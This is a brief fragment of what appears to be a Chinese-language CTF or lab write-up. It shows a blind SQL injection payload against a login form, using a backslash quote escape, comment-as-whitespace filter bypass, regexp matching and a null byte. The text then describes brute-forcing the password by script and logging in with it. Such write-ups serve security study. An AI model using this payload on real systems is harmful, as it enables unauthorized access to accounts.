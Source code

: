 payload:`username=\&passwd=||passwd/**/regexp/**/"^y";%00`

![upload successful](./images/pasted-477.png)
继续使用脚本爆破密码

![upload successful](./images/pasted-478.png)
使用任意账号和这个密码，成功登录
